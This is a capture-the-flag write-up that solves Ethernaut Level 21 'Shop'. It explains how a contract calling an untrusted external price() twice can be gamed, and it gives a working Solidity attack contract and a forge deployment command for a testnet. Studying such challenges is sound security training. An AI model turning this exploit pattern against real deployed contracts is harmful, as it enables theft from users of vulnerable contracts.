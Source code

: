 <div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>

<img src="../assets/levels/21-shop.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 21 - Shop</strong></h1>

</div>

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Objectif](#objectif)
- [The hack](#the-hack)
- [Solution](#solution)
- [Takeaway](#takeaway)

## Objectif

<img src="../assets/requirements/21-shop-requirements.webp" width="800px"/>

## The hack

The goal of the Shop challenge is to buy an item from the contract at a discount. How to do that? Let's check the `buy()` function:

```javascript
function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
}
```

It seems that only a price equal to or greater than the current price will be accepted. However, the `price()` function is not a simple getter, but rather an interface without any logic. So what if we could set our own logic?

This is quite similar to the level [11 - Elevator](../solutions/11_Elevator.md). We can create a new contract that implements the `Buyer` interface and sets our custom logic for the `price()` function.

Now, we simply have to mess with this part:

```javascript
if (_buyer.price() >= price && !isSold) {
  isSold = true;
  price = _buyer.price();
}
```

Notice how the `price()` is called twice. Once to check that the price paid is enough, then again to set the price to its new value.
So we want `!sold` to be false and `price` to be more than 100 the first time to pass the condition, and then `!sold` to be true and `price` to be as little as possible the second time. And there will be our discount.

## Solution

Let's implement the code accordingly:

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

interface IShop {
    function isSold() external view returns (bool);

    function buy() external;
}

contract Discount {
    IShop shop;

    constructor(address _shop) {
        shop = IShop(_shop);
    }

    function price() public view returns (uint256) {
        return shop.isSold() ? 1 : 101;
    }

    function attack() public {
        shop.buy();
    }
}
```

Then run the script with the following command:

```bash
forge script script/21_Shop.s.sol:PoC --rpc-url sepolia --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY --watch
```

## Takeaway

- Don't change the state based on external and untrusted contracts logic.

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
